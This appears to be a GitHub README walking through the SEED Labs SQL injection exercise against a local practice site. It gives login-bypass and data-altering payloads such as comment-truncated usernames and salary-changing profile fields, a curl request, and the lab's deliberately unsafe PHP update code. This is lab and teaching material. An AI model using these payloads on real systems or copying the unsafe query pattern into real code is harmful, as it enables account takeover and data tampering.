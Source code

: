 # Sql-Injection
# Task 1: Log in MYSQL:

		mysql -u root -pseedubuntu
		mysql> use Users;
		mysql> show tables;
	
//Use such a SQL query:

		select * from credential where Name='Alice';
    
![alt text](https://github.com/usman296/Sql-Injection/blob/main/task%201.png)


# Task 2:

--> Task 2.1

  	.USERNAME: "Admin' #"
  
  	.PASSWORD: "xyz" (here is password is optional)

	//We will result in SQL Query

	 	SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		FROM credential
		WHERE name='Admin' #' && password='xyz'
![alt text](https://github.com/usman296/Sql-Injection/blob/main/task%202.1.png)
    
--> Task 2.2

  	1- Write Code on Terminator in Seed Lab:
	  
    curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	  
    2- Copy the HTML code.
	  
    3- Make a new file in location "file:///home/seed/Documents/temp.html"
	  
    4. Run this location on browser
    
![alt text](https://github.com/usman296/Sql-Injection/blob/main/task%202.2.png)


--> Task 2.3: inject statment to append a row to current database:
	
	  INSERT INTO credential (name,eid) VALUES('Shoaib', '17422');
	  
    After row inserted, go to browser and input as:
	  
    .USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Shoaib','17422') #"
	  .PASSWORD: "" (blank field)
    
![alt text]()



# Task 3
Run this on browder "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php"

--> Task 3.1

	  1- Login as Username= 'Alice' && Password = xyz, 
	  2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	  3- Update Phone Number as ', Salary=1000000 and save.
    
--> Task 3.2

	  1- Login as Username= 'Boby' #' and then open edit profile
	  2- Update Phone Number: ',Salary=0 and remaining unchanges
    
![alt text](https://github.com/usman296/Sql-Injection/blob/main/task%203.2.png)

	Login as Alice
		Assume login as Boby and keep Alice login too. Open Alice profile edit
	Update Phone Number: ', Salary=1 where name='Boby' #
  
--> Task 3.3: We're login as Boby but change password of Alice

	 $conn = getDB();
	 // Don't do this, this is not safe against SQL injection attack
	 $sql="";
	 if($input_pwd!=''){
	 // In case password field is not empty.
	 $hashed_ = sha1($input_pwd);
	 //Update the password stored in the session.
	 $_SESSION['pwd']=$hashed_pwd;
	 $sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	 }else{
	 // if passowrd field is empty.
	 $sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	 }
	 $conn->query($sql);
   $conn->close();
	 header("Location: unsafe_home.php");
	 exit();
![alt text](https://github.com/usman296/Sql-Injection/blob/main/task%203.3.png)
